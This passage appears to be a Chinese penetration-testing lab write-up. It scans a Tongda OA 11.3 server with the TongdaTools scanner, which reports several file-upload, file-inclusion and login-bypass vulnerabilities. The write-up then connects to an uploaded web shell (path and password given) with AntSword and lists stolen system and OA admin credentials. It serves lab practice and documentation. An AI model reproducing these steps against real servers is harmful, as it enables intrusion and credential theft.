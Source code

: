 ### TongdaTools

github：https://github.com/xiaokp7/TongdaOATools

下载地址：https://github.com/xiaokp7/TongdaOATool/releases/download/v1.6/TongdaTools.jar

#### 设置代理

![image-20241123230212329](https://image.201068.xyz/assets/writeup/image-20241123230212329.png)

#### 扫描

http://192.168.26.100

![image-20241123230312032](https://image.201068.xyz/assets/writeup/image-20241123230312032.png)

```bash
通达OA版本为：Office Anywhere 11.3版
⚠http://192.168.26.100存在通达OA任意用户登录漏洞
⚠http://192.168.26.100存在通达OA后台im任意文件上传漏洞
⚠http://192.168.26.100存在通达OA后台module任意文件上传漏洞
⚠http://192.168.26.100存在通达OA后台ispirit任意文件上传漏洞
⚠http://192.168.26.100存在通达OA前台ispirit文件包含漏洞
⚠http://192.168.26.100存在通达OA前台action文件包含漏洞
⚠http://192.168.26.100存在通达OAauthmobi伪造在线用户登录漏洞
⚠http://192.168.26.100存在通达OA后台update任意文件上传漏洞
```

![image-20241123230612710](https://image.201068.xyz/assets/writeup/image-20241123230612710.png)

### 蚁剑连接

```bash
蚁剑:http://192.168.26.100/im/2411/1002604418.shell.php
密码:x
```

![image-20241123230921563](https://image.201068.xyz/assets/writeup/image-20241123230921563.png)

![image-20241123230943555](https://image.201068.xyz/assets/writeup/image-20241123230943555.png)

### 账号

![image-20241124000818977](https://image.201068.xyz/assets/writeup/image-20241124000818977.png)

> C:/Users/Administrator/Desktop/introduce.txt

```bash
系统账号
administrator/hacker@123

通达oa
admin/Cm}4dRF,GuAAA37
```
